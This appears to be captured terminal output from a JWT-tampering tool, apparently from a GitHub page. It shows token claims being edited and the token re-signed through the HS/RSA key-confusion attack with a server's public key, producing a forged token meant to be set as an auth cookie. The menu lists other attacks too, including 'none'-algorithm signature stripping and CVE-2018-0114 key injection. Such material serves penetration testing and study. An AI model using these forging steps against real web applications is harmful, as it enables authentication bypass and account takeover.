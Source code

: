 ```
[2] is_omkar = False
[3] money = 0
[4] horses = ['Oliver']
[5] *ADD A VALUE*
[6] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 4

Current value of horses is: ['Oliver']
Please enter new value and hit ENTER
> ['6441910']
[1] user = True
[2] is_omkar = False
[3] money = 0
[4] horses = ['6441910']
[5] *ADD A VALUE*
[6] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token Signing:
[1] Sign token with known HMAC-SHA 'secret'
[2] Sign token with RSA/ECDSA Private Key
[3] Strip signature using the "none" algorithm
[4] Sign with HS/RSA key confusion vulnerability
[5] Sign token with key file
[6] Inject a key and self-sign the token (CVE-2018-0114)
[7] Self-sign the token and export an external JWKS
[8] Keep original signature

Please select an option from above (1-5):
> 4

Please enter the Public Key filename:
> pubkey.pem

====================================================================
This option takes an available Public Key (the SSL certificate from 
a webserver, for example?) and switches the RSA-signed 
(RS256/RS384/RS512) JWT that uses the Public Key as its 'secret'.
====================================================================
File loaded: pubkey.pem

Set this new token as the AUTH cookie, or session/local storage data (as appropriate for the web application).
(This will only be valid on unpatched implementations of JWT.)

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjp0cnVlLCJpc19vbWthciI6ZmFsc2UsIm1vbmV5IjowLCJob3JzZXMiOlsiNjQ0MTkxMCJdfQ.RacSlfvVdpHx1V30u3EybppoSBvvVndlqNCg6knYr2o
```
